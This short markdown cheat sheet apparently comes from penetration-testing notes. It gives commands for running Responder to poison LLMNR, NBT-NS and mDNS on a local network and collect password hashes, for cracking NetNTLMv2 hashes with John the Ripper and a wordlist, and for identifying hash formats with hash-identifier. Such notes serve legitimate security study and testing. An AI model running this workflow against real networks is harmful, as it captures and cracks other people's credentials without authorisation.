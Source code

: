 **1. Responder**

Github: https://github.com/SpiderLabs/Responder
Attack and exploit insecure name resolution protocols in the LAN:
- LLMNR (Link-Local Multicast Name Resolution)
- NBT-NS (NetBIOS Name Service)
- mDNS (Multicast DNS)
```
python2 Responder.py -I eth0
```
=> Collect the hash user/password

**2. John**

Check and crack the hashed password
```
john <hash> --wordlist=/.../rock.. --format=netntlmv2
```
=> Crack the hashed password collected from Responder

**3. Check hash format**
```
hash-identifier <hash>
```
